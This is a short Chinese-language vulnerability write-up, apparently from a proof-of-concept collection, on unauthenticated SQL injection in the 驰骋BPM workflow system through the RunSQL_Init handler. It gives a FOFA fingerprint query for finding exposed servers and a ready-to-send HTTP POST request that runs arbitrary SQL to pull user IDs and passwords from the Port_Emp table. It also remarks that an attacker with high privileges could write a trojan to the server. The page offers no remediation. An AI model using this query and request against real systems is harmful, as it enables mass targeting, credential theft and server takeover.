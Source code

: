 # 驰骋BPM系统存在SQL注入漏洞

驰骋BPM RunSQL_Init 存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```yaml
icon_hash="-1564380241" || body="正在登录流程&表单引擎设计器,请稍候"
```

## poc

```java
POST /WF/Comm/Handler.ashx?DoType=RunSQL_Init HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----123128312312389898yd98ays98d
 
------123128312312389898yd98ays98d
Content-Disposition: form-data; name="SQL"
 
SELECT No,Pass FROM Port_Emp
------123128312312389898yd98ays98d--
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408091048434.png)
